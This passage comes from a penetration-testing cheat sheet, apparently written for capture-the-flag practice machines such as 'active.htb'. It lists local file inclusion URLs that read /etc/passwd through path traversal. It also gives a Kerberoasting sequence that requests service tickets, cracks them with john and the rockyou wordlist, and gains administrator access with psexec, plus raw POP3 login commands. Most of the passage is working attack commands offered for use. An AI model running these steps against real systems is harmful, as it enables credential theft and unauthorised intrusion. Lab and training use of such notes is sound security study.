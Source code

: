     ```bash
    http://$ip/index.php?page=/etc/passwd
    http://$ip/index.php?file=../../../../etc/passwd
    ```

## if a page redirects to another, we can use burp to stop

```bash
Proxy -> Options -> Match and Replace
```

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled.png)

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%201.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%201.png)

## kerberos (88):

```powershell
tel#add host to /etc/hosts
sudo gedit /etc/hosts

./GetUserSPNs.py -request active.htb/SVC_TGS > admin.txt
#the password we will get will be encrypted
john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt

#with the cracked password...
psexec.py administrator@active.htb
```

## **Pop3 (110):**

```bash
telnet INSERTIPADDRESS 110
```

```bash
USER [username]
```

```bash
PASS [password]
```

- To login

```bash
LIST
```

- To list messages

```bash
RETR [message number]
```

- Retrieve message
